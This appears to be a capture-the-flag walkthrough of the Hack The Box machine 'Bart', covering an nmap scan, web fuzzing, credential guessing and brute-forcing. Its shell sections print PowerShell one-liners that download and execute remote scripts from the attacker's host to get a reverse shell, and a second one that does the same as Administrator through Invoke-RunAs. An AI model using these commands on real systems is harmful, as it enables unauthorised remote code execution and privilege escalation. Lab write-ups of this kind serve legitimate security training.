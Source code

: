 ## Nmap
```
# Nmap 7.91 scan initiated Wed Nov 18 12:05:34 2020 as: nmap -sC -sV --reason -oN nmap/initial -vv 10.10.10.81
Nmap scan report for 10.10.10.81
Host is up, received echo-reply ttl 127 (0.14s latency).
Scanned at 2020-11-18 12:05:35 IST for 36s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 50465238F8A85D0732CBCC8EB04920AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 18 12:06:11 2020 -- 1 IP address (1 host up) scanned in 36.65 seconds

```

Only Port 80 is open. If we go to bart.htb it redirects to forum.bart.htb and the page cant be found. So lets try to fuzz the website.

## Wfuzz

After fuzzing it for 20-30 sec we find there are two interesting directories `/forum` and `/monitor`
![[Pasted image 20201118125633.png]]

Lets go to the directories and see what we have.
`/forum` looks like a normal webpage and nothing interesting can be found. However we see a login page at `monitor` which is using `phpservermonitor`

## Sever Monitor

We found a login form at http://bart.htb/monitor/. And on viewing the source at http://bart.htb we found harvey potter as user. Luckily this was also the username and password.
![[Pasted image 20201118200535.png]]

On viewing the `servers` on the page we find an internal website http://internal-01.bart.htb/simple_chat/login_form.php which is again a login form 
![[Pasted image 20201118200917.png]]

We then brute force the login form to get the creds 
Username: `harvey`
Password: `Password1`

On viewing the source we find it is making the following request
xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);

## Reverse Shell

powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/pwershell-1337.ps1')"
![[Pasted image 20201118202132.png]]


## Escalating shell
`Invoke-RunAs -User Administrator -Password 3130438f31186fbaf962f407711faddb -LogonType 0x1 -Binary c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -args "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18:8000/pwershell-1338.ps1')"`
